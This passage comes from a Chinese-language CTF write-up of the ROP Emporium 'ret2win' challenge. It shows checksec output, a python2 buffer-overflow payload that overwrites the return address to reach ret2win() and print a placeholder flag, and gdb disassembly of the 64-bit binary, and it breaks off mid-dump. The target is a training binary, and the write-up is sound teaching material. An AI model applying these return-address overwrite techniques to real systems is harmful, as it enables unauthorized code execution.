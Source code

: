 缓冲区距离 ebp 和 eip 的偏移分别为 40 和 44，这就验证了我们的假设。

通过查看程序的逻辑，虽然我们知道 .text 段中存在函数 `ret2win()`，但在程序执行中并没有调用到它，我们要做的就是用该函数的地址覆盖返回地址，使程序跳转到该函数中，从而打印出 flag，我们称这一类型的 ROP 为 ret2text。

还有一件重要的事情是 checksec：

```text
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

这里开启了关闭了 PIE，所以 .text 的加载地址是不变的，可以直接使用 `ret2win()` 的地址 `0x08048659`。

payload 如下（注这篇文章中的paylaod我会使用多种方法来写，以展示各种工具的使用）：

```text
$ python2 -c "print 'A'*44 + '\x59\x86\x04\x08'" | ./ret2win32
...
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

### ret2win

现在是 64 位程序：

```text
gdb-peda$ disassemble pwnme
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   0x00000000004007b9 <+4>:     sub    rsp,0x20
   0x00000000004007bd <+8>:     lea    rax,[rbp-0x20]
   0x00000000004007c1 <+12>:    mov    edx,0x20
   0x00000000004007c6 <+17>:    mov    esi,0x0
   0x00000000004007cb <+22>:    mov    rdi,rax
   0x00000000004007ce <+25>:    call   0x400600 <memset@plt>
   0x00000000004007d3 <+30>:    mov    edi,0x4008f8
   0x00000000004007d8 <+35>:    call   0x4005d0 <puts@plt>
   0x00000000004007dd <+40>:    mov    edi,0x400978
   0x00000000004007e2 <+45>:    call   0x4005d0 <puts@plt>
   0x00000000004007e7 <+50>:    mov    edi,0x4009dd
   0x00000000004007ec <+55>:    mov    eax,0x0
   0x00000000004007f1 <+60>:    call   0x4005f0 <printf@plt>
   0x00000000004007f6 <+65>:    mov    rdx,QWORD PTR [rip+0x200873]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004007fd <+72>:    lea    rax,[rbp-0x20]
   0x0000000000400801 <+76>:    mov    esi,0x32
   0x0000000000400806 <+81>:    mov    rdi,rax
   0x0000000000400809 <+84>:    call   0x400620 <fgets@plt>
   0x000000000040080e <+89>:    nop
   0x000000000040080f <+90>:    leave  
   0x0000000000400810 <+91>:    ret
End of assembler dump.
gdb-peda$ disassemble ret2win
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:     push   rbp
   0x0000000000400812 <+1>:     mov    rbp,rsp
   0x0000000000400815 <+4>:     mov    edi,0x4009e0
   0x000000000040081a <+9>:     mov    eax,0x0
   0x000000000040081f <+14>:    call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:    mov    edi,0x4009fd
   0x0000000000400829 <+24>:    call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:    nop
```